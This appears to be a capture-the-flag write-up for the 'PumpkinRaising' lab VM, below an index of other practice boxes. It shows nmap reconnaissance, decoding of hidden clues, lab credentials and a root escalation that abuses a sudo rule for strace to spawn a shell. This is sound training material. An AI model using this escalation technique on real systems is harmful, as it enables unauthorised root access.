Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
PumpkinRaising
Pumpking Raising BoxNmap scan report for 192.168.56.114
Host is up (0.000076s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
MAC Address: 08:00:27:DA:0B:C6 (Oracle VirtualBox virtual NIC)
root@kali:~# nmap -A -p- 192.168.56.114
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-07 00:50 EST
Nmap scan report for 192.168.56.114
Host is up (0.00043s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 1a:de:2a:25:2c:cc:51:4b:7a:a0:e0:73:23:b9:3a:64 (DSA)
| 2048 f4:67:d3:d3:e5:24:c0:fc:c4:60:07:1c:1a:34:e9:54 (RSA)
| 256 10:ce:a1:ee:54:27:03:2d:a0:b1:dc:75:80:f2:db:8b (ECDSA)
|_ 256 6c:9d:b1:8d:ab:1f:3a:7c:e9:ad:bd:db:d8:81:d7:87 (ED25519)
80/tcp open http Apache httpd
| http-robots.txt: 23 disallowed entries (15 shown)
| /includes/ /scripts/ /js/ /secrets/ /css/ /themes/
| /CHANGELOG.txt /underconstruction.html /info.php /hidden/note.txt
| /INSTALL.mysql.txt /seeds/seed.txt.gpg /js/hidden.js /comment/reply/
|_/filter/tips/
|_http-server-header: Apache
|_http-title: Mission-Pumpkin
MAC Address: 08:00:27:DA:0B:C6 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.43 ms 192.168.56.114
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.82 seconds
root@kali:~#


FLAG:
<!-- VGhpcyBpcyBqdXN0IHRvIHJlbWFpbmQgeW91IHRoYXQgaXQncyBMZXZlbCAyIG9mIE1pc3Npb24tUHVtcGtpbiEgOyk= -->


Robert : C@43r0VqG2=
Mark : Qn@F5zMg4T
goblin : 79675-06172-65206-17765


--> there is a link on the index page to pumpkin.html
→ which has a encoded string on it

<!-- F5ZWG4TJOB2HGL3TOB4S44DDMFYA==== -->
which is:

/scripts/spy.pcap ← is a packet capture
Open in wireshark, and follow TCP stream:

At the very bottom of pumpkin.html:
<!--
59 61 79 21 20 41 70 70 72 65 63 69 61 74 65 20 79 6f 75 72 20 70 61 74 69 65 6e 63 65 20 3a 29 0a 41 6c 6c 20 74 68 69 6e 67 73 20 61 72 65 20 64 69 66 66 69 63 75 6c 74 20 62 65 66 6f 72 65 20 74 68 65 79 20 62 65 63 6f 6d 65 20 65 61 73 79 2e 0a 41 63 6f 72 6e 20 50 75 6d 70 6b 69 6e 20 53 65 65 64 73 20 49 44 3a 20 39 36 34 35 34 0a 0a 44 6f 2c 20 72 65 6d 65 6d 62 65 72 20 74 6f 20 69 6e 66 6f 72 6d 20 4a 61 63 6b 20 74 6f 20 70 6c 61 6e 74 20 61 6c 6c 20 34 20 73 65 65 64 73 20 69 6e 20 74 68 65 20 73 61 6d 65 20 6f 72 64 65 72 2e
-->
From hex:
Yay! Appreciate your patience :)
All things are difficult before they become easy.
Acorn Pumpkin Seeds ID: 96454
Do, remember to inform Jack to plant all 4 seeds in the same order.
IN the image jackolatern.gif you can use stegosuite to extract another seed using the credentrials found for mark
Mark : Qn@F5zMg4T

decorative.txt:
Fantastic!!! looking forward for your presence in pumpkin party.
Lil' Pump-Ke-Mon Pumpkin seeds ID : 86568
The last seed is in seed.txt.gpg
root@kali:~# gpg -d seed.txt.gpg
-- the password is SEEDWATERSUNLIGHT from the index.html

The text is morse code as mentioned on pumpkin.html

T T I E OF U M N YIPPEE! YOU ARE ON THE RIGHT PATH... BIGMAXPUMPKIN SEEDS ID: 69507
The four seeds are:
50609 -> jack be little
96454 -> acorn
86568 -> lil pumpkin mon
69507 -> big max pumpkin
The order of the seeds can be found on the index page:
it is:
big max,
jack be little
acorn
lil pumpkin-mon
so the password for jack is:
69507506099645486568

jack@Pumpkin:~$ sudo -l
Matching Defaults entries for jack on Pumpkin:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User jack may run the following commands on Pumpkin:
(ALL) NOPASSWD: /usr/bin/strace
→ abuse sudo permission for strace
sudo strace -o/dev/null /bin/bash

FIN